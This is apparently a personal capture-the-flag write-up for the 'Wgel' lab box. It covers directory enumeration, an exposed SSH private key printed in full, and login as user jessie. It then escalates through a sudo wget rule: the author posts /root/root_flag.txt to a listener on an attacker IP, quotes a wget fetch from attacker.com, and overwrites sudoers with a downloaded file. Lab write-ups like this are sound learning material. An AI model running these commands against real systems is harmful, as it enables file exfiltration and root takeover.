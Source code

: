 This box, was troubling, everything went past my eyes, I though that it was manual enumeration of the site when everything was right there. 

https://sckull.github.io/posts/wgel/

Nmap 2 open ports
22
80


dirserach gives us the directory of /sitemap

when enumerating /sitemap the directory medium list doesn't have /.ssh extension which is mindblowing, so I didn't see that, on gobuster or default list of dirsearch it would have picked it up. 

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ dirsearch -u http://10.10.97.14/sitemap/ 

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30
Wordlist size: 10877

Output File: /home/kali/.dirsearch/reports/10.10.97.14/sitemap_21-06-07_10-02-45.txt

Error Log: /home/kali/.dirsearch/logs/errors-21-06-07_10-02-45.log

Target: http://10.10.97.14/sitemap/

[10:02:46] Starting: 
[10:02:47] 301 -  315B  - /sitemap/js  ->  http://10.10.97.14/sitemap/js/
[10:02:48] 200 -   14KB - /sitemap/.DS_Store
[10:02:50] 403 -  276B  - /sitemap/.ht_wsr.txt
[10:02:50] 403 -  276B  - /sitemap/.htaccess_orig
[10:02:50] 403 -  276B  - /sitemap/.htaccess_extra
[10:02:50] 403 -  276B  - /sitemap/.htaccess.bak1
[10:02:50] 403 -  276B  - /sitemap/.htaccess.save
[10:02:50] 403 -  276B  - /sitemap/.htaccess.orig
[10:02:50] 403 -  276B  - /sitemap/.htaccessBAK
[10:02:50] 403 -  276B  - /sitemap/.htaccess.sample
[10:02:50] 403 -  276B  - /sitemap/.htaccessOLD
[10:02:50] 403 -  276B  - /sitemap/.htaccess_sc
[10:02:50] 403 -  276B  - /sitemap/.htpasswds
[10:02:50] 403 -  276B  - /sitemap/.htaccessOLD2
[10:02:50] 403 -  276B  - /sitemap/.httr-oauth
[10:02:50] 403 -  276B  - /sitemap/.htm
[10:02:50] 403 -  276B  - /sitemap/.htpasswd_test
[10:02:50] 403 -  276B  - /sitemap/.html
[10:02:54] 200 -   11KB - /sitemap/.sass-cache/
[10:02:55] 200 -    2KB - /sitemap/.ssh/id_rsa
[10:02:55] 200 -  953B  - /sitemap/.ssh/
[10:02:55] 301 -  317B  - /sitemap/.ssh  ->  http://10.10.97.14/sitemap/.ssh/
[10:03:01] 200 -   12KB - /sitemap/about.html
[10:03:13] 200 -   10KB - /sitemap/contact.html
[10:03:14] 301 -  316B  - /sitemap/css  ->  http://10.10.97.14/sitemap/css/
[10:03:17] 301 -  318B  - /sitemap/fonts  ->  http://10.10.97.14/sitemap/fonts/
[10:03:18] 301 -  319B  - /sitemap/images  ->  http://10.10.97.14/sitemap/images/
[10:03:18] 200 -    8KB - /sitemap/images/
[10:03:19] 200 -   21KB - /sitemap/index.html
[10:03:20] 200 -    4KB - /sitemap/js/

Task Completed
 

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```
do ssh2john and we get--- 

no password!

we ssh in and find the user flat in documents

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ ssh jessie@10.10.97.14 -i id_rsa       
The authenticity of host '10.10.97.14 (10.10.97.14)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.97.14' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
jessie@CorpOne:~/Documents$ cd /root
-bash: cd: /root: Permission denied
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

GTFO FOR THIS IS 

    sudo install -m =xs $(which wget) .
	
	URL=http://attacker.com/file_to_get
	LFILE=file_to_save
	./wget $URL -O $LFILE


we set up a listner on 80 

and send the script

`sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.6.65.43`


```bash
jessie@CorpOne:/$ sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.6.65.43
--2021-06-07 16:13:21--  http://10.6.65.43/
Connecting to 10.6.65.43:80... connected.
HTTP request sent, awaiting response... sudo 
```

we get a response

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ nc -lnvp 80      
listening on [any] 80 ...
connect to [10.6.65.43] from (UNKNOWN) [10.10.97.14] 42494
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.6.65.43
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```
now the write goes on to obtain a root shell, not required to complete room but yes, we got the flag but we are not root

learned about the second tack on sudo -l -l
```ssh
jessie@CorpOne:/$ sudo -l -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:

Sudoers entry:
    RunAsUsers: ALL
    RunAsGroups: ALL
    Commands:
	ALL

Sudoers entry:
    RunAsUsers: root
    Options: !authenticate
    Commands:
	/usr/bin/wget
	
```
	
VS
	
```bash
jessie@CorpOne:/$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
jessie@CorpOne:/$ 
```

It opens it up a bit nicer to read ,,, 

### to get root

so you make a sudoers file and serve it ,, 


sudoers file
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL


grab it
```bash
sudo /usr/bin/wget 10.8.1.72/sudoers --output-document=sudoers
```

and sudo su to execute
